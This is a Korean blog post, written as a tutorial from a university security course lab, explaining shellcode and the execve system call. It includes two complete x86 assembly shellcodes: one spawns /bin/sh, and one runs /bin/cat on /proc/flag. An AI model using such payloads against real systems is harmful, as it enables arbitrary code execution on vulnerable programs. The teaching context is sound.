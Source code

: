 ```yaml
---
layout: post
title:  "Shellcode란?"
date:   2020-12-30 20:19:35 +0900
categories: [ComputerArchitecture]
---
```


# Shellcode란?
## Shellcode 튜토리얼
- 참고링크: [CS6265 튜토리얼](https://tc.gts3.org/cs6265/2020/tut/tut02-warmup2.html#shellcode)  
- 목표: interactive shell 실행
Shellcode란 기본적으로 시스템 해킹, [exploitation(취약점 공격)](https://ko.wikipedia.org/wiki/%EC%B7%A8%EC%95%BD%EC%A0%90_%EA%B3%B5%EA%B2%A9)을 위한 generic [payload](https://ko.wikipedia.org/wiki/%ED%8E%98%EC%9D%B4%EB%A1%9C%EB%93%9C_(%EC%BB%B4%ED%93%A8%ED%8C%85))이다. 

위 링크의 CS6265 튜토리얼에서는 우선 execve를 사용해서 현재 실행중인 프로세스를 바꿔서 정해진 flag를 출력하도록 합니다.

## execve란

`int execve(const char *filename, char *const argv[], char *const envp[]);`

이 함수는 현재 실행중인 프로세스의 실행코드를 실행가능한 파일인 filename로 바꿉니다. filename 프로그램의 코드를 메모리에 새로 load함으로써, 현재 실행 중인 프로세스의 기능이 filename의 것으로 완전히 바뀝니다. 그래서 기존 프로세스는 그대로 두면서 새로운 프로세스를 만드는 fork()와는 구별됩니다. 

위의 argv는 argument vector, envp는 environment입니다. argument가 배열 형태로 따라오고, 또 환경변수로도 따라옵니다. 

## shellcode에서 execve
### 32비트 코드
우선 32비트 버전입니다. 아래에 코드 1과 코드 2가 있는데, 코드 1을 수정해서 flag를 출력할 수 있도록 (코드 2로) 바꾸어야 합니다. 그 과정을 보면, 우선 `#define STRING`을 통해서 문자열을 하나 만듭니다. 그 문자열은 맨 아래의 `.string STRING`에 있습니다. 이게 특이한 부분인데 보통 실행코드가 위치해야 하는 어셈블리의 부분에 문자열이 있습니다.  
STRING을 코드 2와 같이 고치면 어떻게 될까요? 다른 부분도 고쳐야 하기는 하지만, 결론을 말하면 `/bin/sh`를 실행하던 코드가 `/bin/cat`을 실행하고, 그 `/bin/cat`의 argument로 `/proc/flag`를 넘겨줘서 flag가 출력됩니다. 

- 코드 1의 개요도
    ```
    +-------------+
    v             |
    [/bin/cat][0][ptr ][NULL]
                ^     ^     
                |     +-- envp
                +-- argv

    ```

- 코드 2의 개요도
    ```
    +----------------------------+
    |             +--------------=-----+
    v             v              |     |
    [/bin/cat][0][/proc/flag][0][ptr1][ptr2][NULL]
                                ^           ^
                                |           +-- envp
                                +-- argv

    ```

- 코드 1
    ```
    #include <sys/syscall.h>

    #define STRING  "/bin/sh"
    #define STRLEN  7
    #define ARGV    (STRLEN+1)
    #define ENVP    (ARGV+4)

    .intel_syntax noprefix
    .text

    .globl main
    .type  main, @function

    main:
    jmp     calladdr

    popladdr:
    pop    esi                    /* esi points to STRING */
    mov    [ARGV+esi],esi         /* set up argv[0] pointer to pathname */
    xor    eax,eax                /* get a 32-bit zero value */
    mov    [STRLEN + esi],al      /* null-terminate our string */
    mov    [ENVP + esi], eax      /* set up null envp */

    mov    al,SYS_execve          /* syscall number */
    mov    ebx,esi                /* arg 1: string pathname */
    lea    ecx,[ARGV + esi]       /* arg 2: argv */
    lea    edx,[ENVP + esi]       /* arg 3: envp */
    int    0x80                   /* execve("/bin/sh", ["/bin/sh", NULL], [NULL]) */

    xor    ebx,ebx                /* arg 1: 0 */
    mov    eax,ebx
    inc    eax                    /* exit(0) */
    /* mov+inc to avoid null byte */
    int    0x80                   /* invoke syscall */

    calladdr:
    call    popladdr
    .string STRING

    ```

- 코드 2
    ```
    #include <sys/syscall.h>

    #define STRING  "/bin/catN/proc/flag"
    #define STRLEN1 8
    #define STRLEN2 19
    #define ARGV    (STRLEN2+1)
    #define ENVP    (ARGV+8)

    .intel_syntax noprefix
    .text
        
    .globl main
    .type  main, @function

    main:
    jmp     calladdr

    popladdr:
    pop    esi                    /* esi points to STRING */
    mov    edi, esi
    add    edi, STRLEN1+1

    mov    [ARGV+esi],esi         /* set up argv[0] pointer to pathname */
    mov    [ARGV+4+esi], edi

    xor    eax,eax                /* get a 32-bit zero value */
    mov    [STRLEN1 + esi],al      /* null-terminate our string */
    mov    [STRLEN2 + esi],al      /* null-terminate our string */
    mov    [ENVP + esi], eax      /* set up null envp */
    
    mov    al,SYS_execve          /* syscall number */
    mov    ebx,esi                /* arg 1: string pathname */
    lea    ecx,[ARGV + esi]       /* arg 2: argv */
    lea    edx,[ENVP + esi]       /* arg 3: envp */
    int    0x80                   /* execve("/bin/sh", ["/bin/sh", NULL], [NULL]) */
    
    xor    ebx,ebx                /* arg 1: 0 */
    mov    eax,ebx
    inc    eax                    /* exit(0) */
    /* mov+inc to avoid null byte */
    int    0x80                   /* invoke syscall */

    calladdr:
    call    popladdr
    .string STRING

    ```

### 64비트 코드
64비트 코드도 대체로 같습니다. 다만 레지스터들이 rdi, rsi, rdx, ... 하는 식으로 바뀌고, 주소값이 64비트로 바뀌고, `int 80` 대신 `syscall`을 이용하는 등의 차이가 있습니다. (`int 80`은 먹히기는 하는데 `syscall`이 더 빨라서, 64비트 머신에서는 `syscall`이 권장된다고 합니다.)

## 유용한 명령어들
- `strace`, `ltrace` : system call 내역을 나열합니다. 